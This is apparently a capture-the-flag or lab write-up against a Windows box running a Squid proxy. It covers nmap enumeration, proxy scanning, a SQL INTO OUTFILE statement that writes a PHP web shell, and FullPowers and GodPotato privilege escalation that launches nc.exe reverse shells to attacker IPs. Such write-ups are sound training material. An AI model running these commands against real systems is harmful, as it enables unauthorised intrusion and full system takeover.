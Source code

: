#Pawned
```IP
192.168.185.189
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.185.189 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3128/tcp open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-09-23T08:13:48
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923103015.png?raw=true)
## Nmap UDP


# Enumeration

## HTTP
https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid
```
python spose.py --proxy http://192.168.185.189:3128 --target 192.168.185.189
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923103103.png?raw=true)
```
/usr/share/doc/python3-impacket/examples/GetNPUsers.py squid.pg/webmaster
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923105025.png?raw=true)

Proxy with FoxyProxy 192.168.185.189:3128 to 192.168.185.189:8080
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923112856.png?raw=true)

```
select '<?php system($_GET["cmd"]); ?>;' into outfile 'C:/wamp/www/shell2.php'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133305.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133358.png?raw=true)


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133458.png?raw=true)



# PrivEsc

## Manual


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133546.png?raw=true)

FullPowers.exe not being usefull:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133646.png?raw=true)

```
.\FullPowers.exe -c '.\www\nc.exe 192.168.45.200 1234 -e cmd.exe'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133736.png?raw=true)

But it gives us permissions
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923133939.png?raw=true)

```
.\GodPotato-NET4.exe -cmd ".\www\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.200 1234"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240923134620.png?raw=true)

```
.\GodPotato-NET4.exe -cmd ".\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.225 9001"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241111103141.png?raw=true)
## Automated

### Peass
### Mimikatz

